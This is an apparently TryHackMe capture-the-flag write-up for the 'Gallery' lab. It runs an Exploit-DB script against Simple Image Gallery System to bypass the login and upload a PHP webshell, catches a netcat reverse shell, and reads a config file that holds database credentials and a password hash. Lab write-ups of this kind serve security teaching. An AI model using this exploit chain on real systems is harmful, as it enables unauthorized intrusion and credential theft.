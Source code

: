 Nothing interesting on port 80, let's take a look at port 8080 :  
![](https://i.imgur.com/7KgZpke.jpg)  

There is a login page, and it seems that a CMS named "Simple Image Gallery System" is installed. Let's search for it on [Exploit-DB]() :  
![](https://i.imgur.com/KU54nKd.jpg)  

So there is an exploit to get a Remote Code Execution on the target.

**Question : What's the name of the CMS ?**  
**Answer : Simple Image Gallery**  

## Exploiting Simple Image Gallery

Now that we know what exploit to use, let's run it against the target :  
```
attacker@AttackBox:~/Documents/THM/CTF/Gallery$ python3 50214.py 
TARGET = http://10.10.140.54/gallery/
Login Bypass
shell name TagowezuuydtgnfkwucLetta

protecting user

User ID : 1
Firsname : Adminstrator
Lasname : Admin
Username : admin

shell uploading
- OK -
Shell URL : http://10.10.140.54/gallery/uploads/1666216200_TagowezuuydtgnfkwucLetta.php?cmd=whoami
```

Let's take a look at the URL given by the exploit using a web browser :  
![](https://i.imgur.com/iZjCRYL.jpg)  

We have a webshell ! We can execute whatever we want as user www-data. Let's get a reverse shell now. We just need to URL encode it and pass it in the "cmd" url parameter :  
```
attacker@AttackBox:~/Documents/THM/CTF/Gallery$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.14.32.60] from (UNKNOWN) [10.10.140.54] 55092
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

We have a reverse shell now ! It is asked to find the hash password of admin user. If we take a look at "/var/www/html/gallery/initialize.php" file, we have the credentials for the 
database :  
```
$ cat initialize.php
<?php
$dev_data = array('id'=>'-1','firstname'=>'Developer','lastname'=>'','username'=>'dev_oretnom','password'=>'5da283a2d990e8d8512cf967df5bc0d0','last_login'=>'','date_updated'=>'','date_added'=>'');

if(!defined('base_url')) define('base_url',"http://" . $_SERVER['SERVER_ADDR'] . "/gallery/");
if(!defined('base_app')) define('base_app', str_replace('\\','/',__DIR__).'/' );
if(!defined('dev_data')) define('dev_data',$dev_data);
if(!defined('DB_SERVER')) define('DB_SERVER',"localhost");
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
?>
```